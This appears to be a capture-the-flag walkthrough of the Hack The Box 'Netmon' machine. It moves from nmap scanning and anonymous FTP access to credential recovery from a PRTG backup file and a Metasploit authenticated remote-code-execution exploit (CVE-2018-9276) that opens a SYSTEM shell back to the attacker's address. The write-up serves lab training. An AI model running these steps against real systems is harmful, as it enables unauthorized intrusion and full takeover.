# Netmon      


## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.




Here are the descriptions of the open ports shown in the screenshots:

### **21/tcp (FTP)**
The **FTP** service is running on **Microsoft ftpd**. ****Anonymous FTP login is allowed****, anyone can connect without credentials. The directory listing shows several important folders, such as **inetpub**, **PerfLogs**, **Program Files**, and **Windows**.

### **80/tcp (HTTP)**
The web server running on this port is **Indy httpd 18.1.37.13946**, serving the **Paessler PRTG Network Monitor**. This application is commonly used for network monitoring and may have vulnerabilities worth exploring. The server is displaying a "Welcome" page, and additional HTTP methods like **GET**, **POST**, and **OPTIONS** are supported.

### **135/tcp (MSRPC)**
Microsoft Windows RPC service is open, facilitating remote procedure calls on the system.

### **139/tcp (NetBIOS-SSN)**
NetBIOS Session Service is running, used for file and printer sharing over a Windows network, often in conjunction with SMB.

### **445/tcp (Microsoft-DS)**
SMB service (Server Message Block) is running on **Microsoft Windows Server 2008 R2 - 2012**.

When I saw that http is open, I immediately pasted `http://{target ip}` into the browser.



Login panel pops out.

I attempted to login with default credentials but it didn't work.



I even tried to brute-force the credentials with `BurpSuite`'s **Repeater** but it was also unsuccesfull.

### FTP

From the **Nmap** scan we know that **FTP** is open and **Anonymous login** is allowed.

Let's type:

```
ftp {target ip}
```

If it asks you about the *Name* type `Anonymous` and when it asks you about the *Password*, just press `Enter`.



We are in.

### Get the user flag

The `user` flag is in the `/Users/Public/Desktop` path, let's just `get` it.

```
get user.txt
```



### System Search

Since we already have `user`'s flag, we want to find out how to get `root`'s flag.

We know that **SMB** is open but we don't have access to it. I also tried using a few exploits but they didn't work.

It is obvious that the next step is to explore **PRTG Network Monitor (NETMON)** but first, we need to have access to it.

Only reasonable way to look for credentials is to search **FTP** again.

I searched for interesting files but I found nothing. Then I decided to use `Google` and I came across this article:

```
https://www.paessler.com/manuals/prtg/data_storage
```



Let's go to the `/ProgramData/Paessler/PRTG Network Monitor` path then.

We can see several interesting files.



I've searched all of the **PRTG** files and only **PRTG Configuration.old.bak** contains what we are looking for - credentials.

```
get PRTG\ Configuration.old.bak
```



So credentials from file are:

```
prtgadmin:PrTg@dmin2018
```

I tried to log in using them but it didn't work.



As this machine was released in **2019** and this is backup form **2018** I decided to paste `PrTg@dmin2019` and it worked.

```
prtgadmin:PrTg@dmin2019
```



We can see `System Administrator`'s panel.

I pasted `PRTG 18.1.37.13946` into the `Google` and found out that it is vulnerable.

I found this:

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9276
```

**CVE-2018-9276**

and it says:

An issue was discovered in **PRTG Network Monitor before 18.2.39**. An attacker who has access to the **PRTG System Administrator web console with administrative privileges** can exploit an OS command injection vulnerability (both on the server and on devices) by sending malformed parameters in sensor or notification management scenarios.

Knowing that, we are going to use **Metasploit**. You can also use this exploit:

```
https://github.com/A1vinSmith/CVE-2018-9276?tab=readme-ov-file
```

and run it as author says in `README`.

### Metasploit

Type in order:

```
msfconsole
```

```
use exploit/windows/http/prtg_authenticated_rce
```

```
set lhost {your tun0 ip as we are connected to the HTB through VPN}
```

```
set rhost {target ip}
```

```
set admin_username prtgadmin
```

```
set admin_password PrTg@dmin2019
```

```
exploit
```



We are in and we are `nt authority\system`.



`nt authority\system` is **the highest privilege level** account in **Windows** systems. This user has full control over the operating system, meaning we have access to all resources and can perform any administrative operations.

### Get the root flag

`Root` flag is in the `C:\Users\Administrator\Desktop>` path.



### Paste the flags

